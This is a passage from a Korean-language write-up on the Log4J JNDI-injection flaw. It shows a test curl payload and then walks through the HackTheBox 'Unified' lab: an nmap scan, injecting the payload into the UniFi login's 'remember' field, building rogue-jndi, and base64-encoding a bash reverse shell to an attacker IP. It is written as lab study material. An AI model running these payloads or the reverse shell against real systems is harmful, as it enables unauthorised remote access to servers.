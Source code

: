 ```java
```

### Test Exploit Payload

위의 취약한 코드를 exploit할 때 사용할 수 있는 Test 코드다.

```bash
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/a}'
```

## Real World Case Study

HackTheBox에 Unified 문제가 실제 Log4J로 인한 취약점으로 발생한 Real World Case다.

- Target IP : 10.129.96.149
- Attacker IP : 10.10.14.108

먼저 nmap을 통해 어떤 포트들이 열려있는지 대상을 Scanning한다.

```
$ sudo nmap -sV 10.129.96.149
```

![Untitled](/images/20220901/Untitled%208.png)

nmap을 통해 22, 6789, 8080, 8443포트가 열려있는 것을 확인 할 수 있다. 특이한 점은 8443은 ssl을 사용하고 있는 것인데, 요기에 접속해보면 아래와 같은 화면이 뜬다.

![https://10.129.96.149:8443](/images/20220901/Untitled%209.png)

https://10.129.96.149:8443

로그인 시도 시 발생하는 패킷을 살펴보면 다음과 같다.

![Untitled](/images/20220901/Untitled%2010.png)

Unifi의 remember 부분에 Payload를 삽입하면 특이한 반응이 발생하는 것을 확인 할 수 있다.

![Untitled](/images/20220901/Untitled%2011.png)

그리고 tcpdump를 이용하여 공격 가능여부를 확인 할 수 있다.

![Untitled](/images/20220901/Untitled%2012.png)

이제 ReverseShell을 만들어 원격으로 접속해야하는데 이를 도와줄 툴을 사용하면 된다. (참고 : [https://github.com/veracode-research/rogue-jndi](https://github.com/veracode-research/rogue-jndi))

먼저 아래 명령어를 통해 rogue-jndi를 설치해준다.

```
$ git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

이후 ReverseShell을 base64로 인코딩하여 출력한다.

```
**echo 'bash -c bash -i >&/dev/tcp/10.10.14.108/4444 0>&1' | base64**
```
